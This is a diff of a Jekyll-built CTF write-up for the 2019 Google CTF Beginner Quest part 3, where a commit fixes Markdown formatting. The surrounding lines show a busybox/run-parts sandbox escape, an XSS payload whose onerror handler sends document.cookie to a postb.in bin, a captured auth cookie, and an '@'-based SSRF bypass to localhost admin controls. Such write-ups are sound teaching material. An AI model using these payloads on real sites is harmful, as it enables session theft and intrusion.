

Before and after one commit to boxseto/CTFwriteup, a Jekyll site: the page built from docs/GoogleCTF_Beginner_Quest_3.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
fixed formatting error

````diff
--- a/docs/GoogleCTF_Beginner_Quest_3.md
+++ b/docs/GoogleCTF_Beginner_Quest_3.md
@@ -1,7 +1,8 @@
 # GoogleCTF
 ## 2019 - Beginner Quest (Part 3)
-[lint to Part 1](./GoogleCTF_Beginner_Quest.html)
-[lint to Part 2](./GoogleCTF_Beginner_Quest_2.html)
+[link to Part 1](./GoogleCTF_Beginner_Quest.html)
+
+[link to Part 2](./GoogleCTF_Beginner_Quest_2.html)
 
 ### Day 3 - Work Computer (sandbox)
 #### Steps
@@ -17,10 +18,10 @@
     ```
 1. Again, we have to enumerate to find all commands in `/bin`. After searching and reference from other [write-ups](https://github.com/AidanFray/CTF_Writeups/tree/master/2019/GoogleCTF/BeginnerQuests/WorkComputer), we can find the useful command `run-parts`.
     1. Firstly we install the environment in tmp, making the directory having only one command.
-        > install /bin/busybox /tmp
+        > $ install /bin/busybox /tmp
     1. Then we can test it through the `run-parts` command:
         ```console
-        > run-parts /tmp
+        > $ run-parts /tmp
         BusyBox v1.29.3 (2019-01-24 07:45:07 UTC) multi-call binary.
         BusyBox is copyrighted by many authors between 1998-2015.
         Licensed under GPLv2. See source distribution for detailed
@@ -44,6 +45,7 @@
     ![Webpage](./images/GoogleCTF/beginner_quest/img11.png)
 1. But the blind spot is that HTML is still valid and javascript in `onerror` is not checked. Therefore we can use the same XSS trick as Part 1 with our postb.in friend. Then there is our flag!
     > &lt; img src="x" onerror="document.location='https://postb.in/1564843387388-4921431124676/?'+document.cookie"&gt;
+
     ![Flag](./images/GoogleCTF/beginner_quest/img12.png)
 
 
@@ -54,6 +56,7 @@
     > auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
 1. Remember the previous XSS flag, where there is a '/admin' directory? yes, there is an admin directory here too. Only that it redirects us back to the website unless we give the `auth` cookie.
     > document.cookie = "auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"
+
     ![Admin site](./images/GoogleCTF/beginner_quest/img13.png)
 1. Well there is not much to see, and the 'Camera Control' tab is not working too.
     > Requests only accepted from 127.0.0.1
@@ -61,4 +64,5 @@
     > /watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm
 1. However, trying to replace the path solely is not enough as it is not recongized also as a local file request. We have to fake the server by putting a additional '@' sign to trick it. After that our flag appears!
     > http://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls
+
     ![Flag](./images/GoogleCTF/beginner_quest/img14.png)
````
Also changed, not shown: docs/GoogleCTF_Beginner_Quest_2.md (+1 -1 lines).
